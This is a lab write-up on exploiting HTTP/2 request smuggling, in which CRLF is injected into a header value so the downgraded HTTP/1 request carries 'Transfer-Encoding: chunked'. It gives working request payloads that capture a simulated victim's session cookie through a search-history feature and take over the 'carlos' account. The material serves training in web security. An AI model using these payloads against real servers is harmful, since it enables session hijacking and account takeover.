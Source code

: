 
The catch here is that HTTP/2 messages are binary rather than text-based, so the boundaries of each header are based on explicit, predetermined offsets rather than delimiter characters.

This means that `\r\n` no longer has any value, and can be included inside the value without causing any splitting.

When the request is rewritten as HTTP/1 request, then `\r\n` will be interpreted as a header delimiter.

For example:

```HTTP/2
Foo: bar\nTransfer-Encoding: chunked
```

```HTTP/1
Foo: bar
Transfer-Encoding: chunked
```

## CLFR Exploitation

The goal is to use CLFR vulnerability to gain access to another user's account. The victim accesses the home page every 15 seconds.

First let's capture the root request and send that to repeater. Change the method to `POST` and remove the unnecessary headers.

In order to verify the vulnerability, let's add the `Transfer-Encoding: chunked` but in the same line with another header, so the frontend will not see it.

`Foo: Bar\r\nTransfer-Encoding: chunked`

So the request will be:

```HTTP/2
...
Foo: Bar\r\nTransfer-Encoding: chunked

0

GET /dajlshdalked HTTP/1.1
X-Ignore: x
```

Always make sure that there will not be `\r\n` after the X-Ignore: x, as this will not allow the correct append of the victim's request.

When I send this, and then a normal request, I got a `404` meaning that the vulnerability is present.

Response
```http
HTTP/2 404 Not Found
```

Now, to exploit and gain access to the victim's account. For, this I will target its cookie.

In the main page, there is a search function, and if I search for something, that is stored in the "Recent searches", so I will use this to gain access to the victim's account.

![](Pasted_image_20250116112611.png)

I modify my attack request in a way that the `Content-Length` is much longer than the actual body.

```http
...
Foo: Bar\r\nTransfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0a7a004804d6a19f80d6402b00bd0047.web-security-academy.net
Cookie: session=9QjWxUhrPKWLuxEXqD6HwnMDzlhrRNTj;
Content-Length: 1000
Content-Type: application/x-www-form-urlencoded

search=halilWashere
```

When I send this, a couple of times, as the victim visits the page every 15 seconds, the request of the victim will be appended to my search query. 

And I see that I have extracted the request, and there is also the cookie.
![](Pasted_image_20250116113108.png)

When I put this account's Cookie in Burp, I gain access to the `carlos` account.

![](Pasted_image_20250116113425.png)